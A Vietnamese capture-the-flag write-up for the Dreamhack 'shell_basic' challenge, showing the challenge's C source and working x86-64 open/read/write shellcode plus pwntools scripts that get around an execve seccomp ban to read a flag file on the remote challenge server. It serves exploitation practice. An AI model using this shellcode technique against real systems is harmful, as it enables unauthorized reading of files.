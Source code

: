 # shell_basic

1 chall giúp mình luyện tập cách viết shellcode

trước khi giải chall này thì **ta cần biết những kiến thức cơ bản về viết shellcode và seccomp-tools** , các bạn có thể tham khảo tài liệu tại đây:

- **dreamhack:** https://learn.dreamhack.io/50#3
- **seccomp:** https://github.com/david942j/seccomp-tools

oke giờ mình bắt đầu giải thôi

## source C:

```c 
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}

```

tại đây mình nhập shellcode và nó cho phép mình chạy shellcode luôn

**check seccomp-tools xem sao:**

![image](https://github.com/gookoosss/CTF/assets/128712571/615a241e-fbfa-4ece-8fb9-74a9b58eabce)




ở đây **ta bị giới hạn syscall execve** rồi, nên ta sẽ dùng các syscall khác mà chương trình cho phép

đề bài nó đã cho đường dẫn địa chỉ là **/home/shell_basic/flag_name_is_loooooong**

bây giờ ta sẽ tách địa chỉ này thành 5 phần, mỗi phần 8byte:

```python
# /home/sh == 0x68732f656d6f682f
# ell_basi == 0x697361625f6c6c65
# c/flag_n == 0x6E5F67616C662F630
# ame_is_l == 0x6C5F73695F656D61
# oooooong == 0x676E6F6F6F6F6F6F
```

## Khai thác

- **Stage 1: push address**

tiếp theo ta sẽ mov các giá trị này vào rax sau đó mới push ra rsp, **lý do là vì nếu push trực tiếp với giá trị quá lớn chương trình sẽ báo lỗi**

à nhớ byte cuối cùng phải có null byte nha

```asm 
    push 0x0
    mov rax, 0x676E6F6F6F6F6F6F         
    push rax
    mov rax, 0x6C5F73695F656D61         
    push rax
    mov rax, 0x6E5F67616C662F63         
    push rax
    mov rax, 0x697361625f6c6c65         
    push rax
    mov rax, 0x68732f656d6f682f         
    push rax
```

- **Stage 2: syscall open**

khi chạy đến địa chỉ chính xác rồi ta cần **open file** 

![image](https://github.com/gookoosss/CTF/assets/128712571/5165ac66-10ce-4591-9aa6-b6911c2a936a)



```asm 
    mov rax, 0x2
    mov rdi, rsp                        
    xor rsi, rsi
    xor rdx, rdx
    syscall
```

- **Stage 3: syscall read**

sau khi mở file lên ta sẽ **đọc file đó để lấy flag** đó:

```asm 
    mov rdi, rax                        
    mov rsi, rsp
    sub rsi, 0x30            
    mov rdx, 0x30                       
    mov rax, 0x0                        
    syscall

```

- **Stage 4: syscall write**

sau khi đã đọc được flag, ta cần **in ra flag bằng cách write nó**:

```asm 
    mov rax, 0x1
    mov rdi, 1      
    syscall
```

đến đây ta chạy và có được flag:

![image](https://github.com/gookoosss/CTF/assets/128712571/47f82cbe-219a-4adf-ab5a-0f1962c7c64d)


## script:

```python
from pwn import *

p = remote('host3.dreamhack.games', 22243)


# exe = ELF('./shell_basic')
# context.arch = 'amd64'
# p = process(exe.path)

# gdb.attach(p, gdbscript = '''
# b*main+110
# b*main+115
# c           
# ''')

# input()

# # /home/sh
# ell_basi
# c/flag_n
# ame_is_l
# oooooong

shellcode = asm(
    '''
    push 0x0
    mov rax, 0x676E6F6F6F6F6F6F         
    push rax
    mov rax, 0x6C5F73695F656D61         
    push rax
    mov rax, 0x6E5F67616C662F63         
    push rax
    mov rax, 0x697361625f6c6c65         
    push rax
    mov rax, 0x68732f656d6f682f         
    push rax
    
    mov rax, 0x2
    mov rdi, rsp                        
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov rdi, rax                        
    mov rsi, rsp
    sub rsi, 0x30            
    mov rdx, 0x30                       
    mov rax, 0x0                        
    syscall    

    mov rax, 0x1
    mov rdi, 1      
    syscall
    ''', arch = 'amd64'
)

p.sendafter(b'shellcode:', shellcode)

p.interactive()
```

## Bonus:

cách làm **shellcraft** khá hay và lạ của **@hlaan**:

```python3
from pwn import *

p = remote('host3.dreamhack.games', 22243)


link = b'/home/shell_basic/flag_name_is_loooooong'
shellcode = shellcraft.open(link)
shellcode += shellcraft.read('rax', 'rsp', 0x100)
shellcode += shellcraft.write(1, 'rsp', 0x100)

p.sendafter(b'shellcode:', shellcode)

p.interactive()

```

khá hay và thú vị đúng không

**tài liệu tham khảo thêm:**     https://docs.pwntools.com/en/stable/shellcraft.html


